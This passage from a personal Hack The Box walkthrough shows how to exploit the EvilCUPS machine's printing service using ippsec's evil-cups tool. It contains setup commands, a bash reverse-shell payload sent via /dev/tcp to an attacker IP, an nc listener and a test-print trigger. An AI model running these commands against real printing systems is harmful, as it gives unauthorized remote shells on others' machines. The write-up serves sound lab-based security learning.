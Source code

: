 <div class="IMPORTANT">

This attack chain demonstrates the compounding effect of multiple vulnerabilities in a system. Always ensure proper permissions and ethical considerations before testing or demonstrating such exploits.

</div>


## Example of Exploitation. {#example-of-exploitation-dot}

-   This example is taken from the HTB box EvilCUPS:
    -   <https://app.hackthebox.com/machines/EvilCUPS>
-   You can see my full writeup here:
    -   <https://bloodstiller.com/walkthroughs/evilcups-box/>


### Preparing the CUPS Exploit: {#preparing-the-cups-exploit}

-   **I will be using ippsec's cups exploit for this attack**:
    -   <https://github.com/ippsec/evil-cups>

-   **Preparing Exploit**:
    -   `git clone https://github.com/IppSec/evil-cups.git`
    -   `cd evil-cups`
-   **Prepare Python Venv**:
    -   `python3 -m venv evilCups`
    -   `source evilCups/bin/activate`
    -   +Note+: I use venv's as it allows me to install different deps without causing conflicts with my base python installation.
-   **Install Requirements**:
    -   `pip3 install -r requirements.txt`


### Running the CUPS Exploit: {#running-the-cups-exploit}

1.  **Running the exploit to send the payload**:
    -   `python3 evilcups.py [AttackIP] [VictimIP] "bash -c 'bash -i >& /dev/tcp/[AttackIP]/[AttackPort] 0>&1'"`
    -   `python3 evilcups.py 10.10.14.58 $box "bash -c 'bash -i >& /dev/tcp/10.10.14.58/443 0>&1'"`
    -   {{< figure src="/ox-hugo/2024-10-22-095213_.png" >}}
    -   Now the payload is sent we can move onto the next stage of triggering the exploit:

2.  **Start our listener**:
    -   `rlwrap -cAr nc -lnvp 443`

3.  **Trigger the exploit**:
    -   Navigating the CUPS web-console we can see our malicious printer is listed:
        -   {{< figure src="/ox-hugo/2024-10-22-090825_.png" >}}

    -   **Printing our test page to trigger the exploit**:
        -   In order to activate the exploit and trigger the malicious PPD directives we need to either wait for a print job to be sent to the fake printer or we can trigger one ourselves using the "`Test Print`" functionality.
        -   {{< figure src="/ox-hugo/2024-10-22-090909_.png" >}}
